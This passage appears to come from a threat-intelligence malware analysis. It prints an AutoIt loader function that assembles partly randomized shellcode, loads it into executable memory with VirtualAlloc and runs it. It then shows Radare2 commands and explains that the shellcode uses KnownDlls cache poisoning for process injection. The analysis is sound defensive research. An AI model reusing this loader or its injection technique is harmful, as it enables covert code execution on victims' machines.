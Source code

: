```autoit
Func AllocatePayload($a, $SJKRKKK = "", $cOVkTS = "")
	$Payload = "0xE9971E000 [...] 45F48A00"
	[...] 
	$Payload &= "300400008DB424B001000050F3A5E8F8E2FFFF6A5E596A" & StringTrimLeft(Binary(Chr(Random(65, 90, 1))),2) & "8BF0586A" & StringTrimLeft(Binary(Chr(Random(65, 90, 1))),2) & "8D7C24"
	$Payload &= "3CF3A56689442410586A" & StringTrimLeft(Binary(Chr(Random(65, 90, 1))),2) & "6689442412586A" & StringTrimLeft(Binary(Chr(Random(65, 90, 1))),2) & "6689442414586A" & StringTrimLeft(Binary(Chr(Random(65, 90, 1))),2) & "6689442416"
	$Payload &= "586A" & StringTrimLeft(Binary(Chr(Random(65, 90, 1))),2) & "6689442418586A" & StringTrimLeft(Binary(Chr(Random(65, 90, 1))),2) & "668944241A586A" & StringTrimLeft(Binary(Chr(Random(65, 90, 1))),2) & "668944241C586A" & StringTrimLeft(Binary(Chr(Random(65, 90, 1))),2) & "668944241E"
	$Payload &= "586A" & StringTrimLeft(Binary(Chr(Random(65, 90, 1))),2) & "6689442420586A" & StringTrimLeft(Binary(Chr(Random(65, 90, 1))),2) & "6689442422586A" & StringTrimLeft(Binary(Chr(Random(65, 90, 1))),2) & "6689442424586A" & StringTrimLeft(Binary(Chr(Random(65, 90, 1))),2) & "6689442426"
	$Payload &= "6689442428586A" & StringTrimLeft(Binary(Chr(Random(65, 90, 1))),2) & "668944242A586A" & StringTrimLeft(Binary(Chr(Random(65, 90, 1))),2) & "668944242C586A" & StringTrimLeft(Binary(Chr(Random(65, 90, 1))),2) & "668944242E586A" & StringTrimLeft(Binary(Chr(Random(65, 90, 1))),2)
	$Payload &= "6689442430586A" & StringTrimLeft(Binary(Chr(Random(65, 90, 1))),2) & "6689442432586A" & StringTrimLeft(Binary(Chr(Random(65, 90, 1))),2) & "66894424346689442436586689442434"
	$Payload &= "33C066894424368D4 [...] 750C8D84"
	$Payload &= "242C0300008DB424B40 [...] 0000000"
	$Payload &= "0000000000000000000000000000000000000000000000000000000000000000"
	$Bin_Payload = Binary($Payload)
	$Bin_Data = Binary($a)
	$lim_Payload = BinaryLen($Bin_Payload)
	$initAlloc = DllCall("kernel32.dll", "ptr", "VirtualAlloc", "ptr", 0, "ulong_ptr", $lim_Payload, "dword", 0x00003000, "dword", 0x00000040)[0]
	$struc = DllStructCreate("byte file[" & BinaryLen($Bin_Data) & "]")
	DllStructSetData(DllStructCreate("byte nop[" & $lim_Payload & "]", $initAlloc), "nop", $Bin_Payload)
	DllStructSetData($struc, "file", $Bin_Data)
	$address = DllCallAddress("dword", $initAlloc, "str", $cOVkTS, "ptr", DllStructGetPtr($struc))[0]
	Return WinGetProcess($address)
EndFunc
```

<h4>The shellcode extracted can be easily push in Radare2 by a malloc or in Cutter (GUI of Radare2) on the shellcode panel.</h4>

``` batch
$ r2 malloc://1
[0x00000000]> wx E9971E0000558BECB84D5A000083EC14663903740433C0EB7F8B433C813C185045000075 [...]
```

<center><img src="https://raw.githubusercontent.com/StrangerealIntel/CyberThreatIntel/master/Additional%20Analysis/UnknownTA/2020-09-07/Pictures/CutterShellcode.png"></img></center>

<h4>As first action, this load the strings on stack strings on the memory. In unstacking the strings, we can get a first look on the actions that perform the shellcode. The attacker uses NtQuerySystemInformation for getting a list of all handles open on the system for perform KnownDlls Cache Poisoning. In comparing the reference with \KnownDlls\X, this gets the HandleValue is returned by the call. This allows of to perform an injection on the process to target.</h4>
